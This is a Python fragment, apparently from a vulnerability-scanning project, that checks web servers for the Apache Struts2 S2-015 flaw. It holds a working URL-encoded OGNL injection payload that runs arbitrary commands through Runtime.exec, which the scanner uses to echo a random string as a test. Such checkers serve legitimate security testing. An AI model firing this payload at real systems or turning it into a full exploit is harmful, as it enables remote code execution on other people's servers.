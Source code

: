 ```python
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
        }
        self.payload = '''/%24%7B%23context%5B'xwork.MethodAccessor.denyMethodExecution'%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('{cmd}').getInputStream())%2C%23q%7D.action'''

    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

       
        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote('echo' + ' ' + self.capta))
            check_req = requests.get(check_url, headers = self.headers)
            if self.capta + '.jsp' in check_req.text.replace(' ', '').replace('\n', ''):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_015 = S2_015_1_BaseVerify('http://localhost:8080/s2_015_war_exploded/Helloworld.action')
    print(S2_015.run())
```
